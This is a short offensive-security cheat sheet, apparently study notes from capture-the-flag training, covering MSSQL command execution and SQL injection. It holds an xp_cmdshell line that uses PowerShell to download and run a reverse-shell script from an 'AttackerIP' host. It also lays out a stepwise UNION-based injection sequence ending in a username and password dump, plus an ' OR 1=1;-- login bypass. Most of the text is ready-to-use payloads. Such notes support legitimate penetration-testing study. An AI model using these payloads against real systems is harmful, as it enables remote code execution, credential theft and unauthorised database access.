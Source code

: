 ```
EXEC master..xp_cmdshell 'whoami'
```

```
xp_cmdshell powershell iex(new-objectnet.webclient).downloadstring(\"http://AttackerIP/Invoke-PowerShellTcp.ps1\")
```

after every command

```
go
```

**Enumerating MSSQL**

Get all available databases

```
SELECT name FROM master.dbo.sysdatabases
```

Get everything in relation to tables from a database of interest

```
SELECT * FROM DatabaseOfInterest.INFORMATION_SCHEMA.TABLES
```

Get everything in relation to columns from a database of interest

```
SELECT * FROM DatabaseOfInterest.INFORMATION_SCHEMA.COLUMNS
```

Change to another database

```
use DatabaseOfInterest
```

Extract Data

```
select Column_Of_Interest,Column_Of_Interest from Table_Of_Interest
```

[MySQL SQL Injection Practical Cheat Sheet](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/)

[Union Based Oracle Injection](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html)

* `https://website.thm/blog?id=1` == `SELECT * from blog where id=1 and private=0 LIMIT 1;` and can be injected with `https://website.thm/blog?id=2;--` which will then look like `SELECT * from blog where id=2;-- and private=0 LIMIT 1;` The semicolon in the URL signifies the end of the SQL statement, and the two dashes cause everything afterwards to be treated as a comment. By doing this, you're just, in fact, running the query: `SELECT * from blog where id=2;--`

1. `'` `"` -- find injection points
2. `0 UNION SELECT 1,2,database()` -- this will depend on how many columns are available. two in 3 in this case.
3. `0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'database'` -- will display tables from database
4. `0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'table'` -- will display columns from table
5. `0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM table` -- will display user and pass from table
6. `' OR 1=1;--` 1=1 is a true statement and we've used an OR operator, this will always cause the query to return as true, which satisfies the web applications logic that the database found a valid username/password combination and that access should be allowed.
